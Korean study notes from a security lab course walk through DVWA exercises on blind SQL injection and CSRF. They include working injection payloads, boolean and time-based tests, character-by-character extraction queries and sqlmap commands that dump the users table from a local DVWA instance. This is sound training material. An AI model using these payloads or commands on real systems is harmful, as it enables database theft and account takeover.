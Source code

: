 # DVWA 03

---

# SQL Injection(blind)


악용되면 데이터베이스의 정보를 다 털 수 있다. 매우위험!!


검색엔진 등에서 주로 테스트됨. 결과가 true 혹은 false로 나타날 때 시도할 수 있음. 


* database의 information 스키마? 여기에 mysql의 메타데이터, 모든 정보가 담겨있다고 함. 그래서 주로 여기에 공격이 시도됨. DB명, 테이블명 등을 모두 포함하기 때문.




blind sql injectioin이 가능한지 확인하기?


`1' OR 1=1#` 이 쿼리가 먹는지 확인한다. true가 뜨면 되는거.


그리고 `1' AND 1=2#`에서 false가 나오는지 확인.


sleep?이라는걸 쓸수도 있대. delay를 살짝 주는 것.


`1' AND sleep(5)#` 이래 입력하고 검색결과가 5초 뒤에 나오는지 확인한다. 그러면 트루인거임.




<br></br>
---

## low




검색창에 다음과 같이 입력. 


> `1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>91#`


* `(select first_name from users where user_id='1')` 이거의 결과값을 이하 함수의 첫 인자로 사용 
* `substr()` 첫 인자의 몇번째부터 몇개를 따올건지 세개의 파라미터로 지정해줌. 
* `ascii()` ascii값으로 변환하는 함수. 


하나씩 늘려가며 대입해봤을 때 **가장 먼저 false가 뜨는 그 값**이 아이디의 첫 글자라고 유추할 수 있겠다. 

* substr((select first_name from users where user_id='1'), **n**, 1)) 이면 n번째 글자를 의미함. 이걸 이용해서 모든 글자를 알아내 조합하면 되는 것인디...


사람이 다 하기엔 너무 노가다라서... 이걸 자동화해서 터는... 그런 툴이 있다. SQL MAP이라는건데


[[SQL_MAP_download]](https://sqlmap.org/)


확인 가능한 폴더에서 압축 풀어주고,


해킹하고자 하는 사이트의 개발자도구(F12) 콘솔에 다음과 같이 입력해준다.


> `console.log(document.cookie);`


그리고 뜨는 이거(`security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr`
)를 카피해서

![SI_low1](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low1.jpg)



아까 SQL MAP을 다운받은 경로에서 다음과 같이 입력


> `python sqlmap.py -u "[대상 링크]" --cookie="[아까복사한쿠키]"`



> `python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr" `

* --current-db 하면 현재 웹사이트에서 사용하는 DB명을 알 수 있음

![SI_low2](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low2.jpg)

* -D [DB명, ex) dvwa] --tables 하면 테이블명 알아내기. 

* -T [table명, ex) users] -dump 하면 뭐냐 해당 테이블의 덤프를 딴다.

-> 덤프란? 데이터를 압축해서 새로운 뭔가를 만드는... 전체 조회? 느낌으로도 사용되는듯


![SI_low3](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low3.jpg)


굿.

<br></br>
---

## medium


proxy를 사용하되 low와 기본적인건 동일함. 

> proxy의 ID부분 인자를 `1 AND ascii(substr((select first_name from users where user_id=1),1,1))>91#`으로 변경 후 forward


![SI_mid1](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_mid1.jpg)


<br></br>
---

## high



얘도 끝에 주석만 잘 넣어주면 low랑 똑같다! 


굿. 


<br></br>
---

## impossible


예아. 




<br></br>
---

# CSRF



pw를 바꿀 때 뭔가 권한접근을 따내는거.


새로운 패스워드를 바꾸려할 때 파라미터가 get방식으로 웹 창에 다 보이자나


그럼 그거를 조작하는 방식이에용...


원하는 pw로 변경하고 submit했을 때의 그 URL을 short시켜서, 그럴듯한 가짜 링크에서 리다이렉션되도록 해둔 뒤... 


누군가 링크로 들어가면 그 유저의 패스워드가 해커가 설정해둔걸로 변경되는 것. 


기존 pw를 함께 입력하게 한다던가 토큰을 써서 접근권한을 제한하면 막을 수 있다. 



**굿**





